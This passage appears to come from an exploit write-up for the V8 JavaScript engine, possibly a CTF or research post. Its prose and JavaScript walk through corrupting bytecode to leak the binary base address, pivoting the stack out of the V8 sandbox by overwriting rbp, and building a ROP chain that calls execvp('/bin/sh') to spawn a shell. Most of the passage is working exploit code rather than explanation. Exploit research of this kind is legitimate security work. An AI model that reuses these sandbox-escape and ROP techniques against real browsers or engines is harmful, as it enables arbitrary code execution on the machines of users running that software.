 Once arbitrary bytecode execution is achieved, I use the bytecode `Ldar a15` to read the return address and obtaine the lower 32-bit of the binary base address.

```javascript
// 0b 12             Ldar a15
// ...
// 0b 05             Ldar a2
// 0b 04             Ldar a1
// 0b 03             Ldar a0
// 0b 02             Ldar <this>
// 0b 01             Ldar <accumulator>, in Trusted Space
// 0b 00             Ldar a-3
memory.setBigInt64(target_addr + 0x28, 0x00f8033704af120bn, true);

var leak = BigInt(foo() << 1);
if (leak < 0)
    leak += 0x100000000n;
var text_base = leak + BigInt(bin_high32) - 0x23bb95cn;
log_addr("text_base", text_base);
```

Next, I use `Ldar a0` to read first parameter into the accumulator register and use `Star a-3` to overwrite the old `rbp`, pivoting stack to the v8 Sandbox. This allows me to execute ROP chain when `foo()` is called again. Directly hijacking execution flow by `rip` seems to not be possible because the parameters of function only accept the addresses of v8 Sandbox objects or 32-bit SMI (Small Integer) values.

```javascript
// 18 03             Star a0
// ...
// 18 01             Star <accumulator>
// 18 00             Star a-3

/*
## control stack
0b 03             Ldar a0
18 00             Star a-3

## control rip
0b 04             Ldar a1
18 01             Star <accumulator>
*/

memory.setBigInt64(target_addr + 0x28, 0xaf0018030bn, true);
foo(fake_stack);
```

Before executing ROP, there are some some checks needed to bypassed. However, since the entire v8 Sandbox can be controlled, this is not an issue for us. Finally, I construct a ROP chain to execute `execvp("/bin/sh", NULL)` and get the shell.

```javascript
memory.setBigInt64(target_addr + 0x108 + 1, rop_ret, true);
memory.setBigInt64(target_addr + 0x200, 0x0068732f6e69622fn, true);
memory.setBigInt64(target_addr + 0x140 + 1, rop_pop_rdi_ret, true);
memory.setBigInt64(target_addr + 0x148 + 1, BigInt(sbx_base + target_addr + 0x200), true);
memory.setBigInt64(target_addr + 0x150 + 1, rop_pop_rsi_ret, true);
memory.setBigInt64(target_addr + 0x158 + 1, 0n, true);
memory.setBigInt64(target_addr + 0x160 + 1, plt_execvp, true);
```



